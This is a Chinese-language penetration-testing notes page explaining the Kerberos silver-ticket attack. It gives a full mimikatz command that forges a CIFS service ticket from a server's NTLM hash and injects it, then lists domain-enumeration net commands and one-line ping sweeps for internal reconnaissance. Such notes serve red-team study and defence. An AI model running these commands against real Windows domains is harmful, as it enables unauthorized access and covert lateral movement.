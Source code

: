 
###  白银票据
#### 白银票据利用原理

白银票据不与KDC交互，伪造Ticket直接与server进行交互,TGS发送的ticket是通过访问的服务端的用户hash进行加密，所以我们只要知道server用户的hash就可以伪造一个ticket,  这就是白银票据

#### 白银票据利用
服务类型可以从以下内容中来进行选择，因为我们没有TGT去不断申请ticket，所以只能针对某一些服务来进行伪造
```
服务注释    	             服务名
WMI	HOST                     RPCSS
Powershell Remoteing	     HOST、HTTP
WinRM	                     HOST、HTTP
Scheduled Tasks	             HOST
LDAP 、DCSync	              LDAP
Windows File Share (CIFS)	  CIFS
Windows Remote ServerAdministration Tools	RPCSS、LDAP、CIFS

```
需要server的ntml hash
![Alt text](2.png)

最后利用mimikatz

```

mimikatz "kerberos::golden /domain:lmcx.org /sid:S-1-5-21-398853188-700735657-3655563174 /target:WIN-8S8TI6FIOEB.lmcx.org /service:cifs   /user:administrator  /rc4:af482421dc96e5792fa9324e8cd367d3 /ptt"  exit


```
查看是否成功

![Alt text](1.png)


### 黄金票据和白银票据的优点

命令中的sid为域ID，即去掉最后一个-及之后的数字的剩余部分；target顾名思义是目标机器名，使用hostname可以查看，再加上域地址；user可以为任意用户，甚至是不存在的用户，因为我们伪造了TGT或者Ticket都是跳过了第一步AS请求，所以哪怕用户不存在票据也是有效的，隐蔽性较高。 




域中用的到的命令
```
net group “domain admins” /domain 获得域管理员列表
net group “enterprise admins” /domain 获得企业管理员列表
net group “domain controllers” /domain 获得域控制器列表
net group “domain computers” /domain 获得所有域成员计算机列表
net user /domain 获得所有域用户列表
net user someuser /domain 获得指定账户someuser的详细信息
net accounts /domain 获得域密码策略设置，密码长短，错误锁定等信息
```
内网无工具扫描一条 cmd 命令解决：
windwos下

for /l %i in (1,1,255) do @ping 192.168.100.%i -w 1 -n 1 | find /i "ttl"

linux 下
for i in \`seq 1 255\`; do ping -c 2 192.168.100."$i"|grep  "64 bytes" ;done 


找主机名

    for /l %i in (1,1,255) do @ping -a 10.0.1.%i -w 1 -n 1 | find /i "Pinging"

